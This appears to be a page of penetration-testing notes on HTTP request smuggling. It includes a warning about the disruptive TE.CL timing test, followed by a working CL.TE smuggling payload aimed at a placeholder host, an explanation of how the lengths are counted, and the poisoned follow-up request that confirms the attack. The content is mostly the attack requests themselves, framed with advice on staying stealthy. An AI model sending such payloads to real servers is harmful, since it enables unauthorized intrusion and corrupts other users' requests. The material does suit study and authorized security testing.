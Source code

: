 {% hint style="warning" %}
**Warning**: The timing-based test for TE.CL vulnerabilities will potentially disrupt other application users if the application is vulnerable to the CL.TE variant of the vulnerability. So to be stealthy and minimize disruption, you should use the CL.TE test first and continue to the TE.CL test only if the first test is unsuccessful.
{% endhint %}

## <mark style="color:purple;">Confirmation/Exploitation</mark>

Normal request

```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

### <mark style="color:purple;">**CL.TE**</mark>

```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```

`Content-Legth: 49` -> all chars until `Foo:x` (include `\r\n`)

`e` (hex) -> Lenght `q=smuggling&x=`

Then send normal request. This will cause the subsequent "normal" request to look like this:

```http
GET /404 HTTP/1.1
Foo: xPOST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

The server will respond with status code 404, indicating that the attack successful.
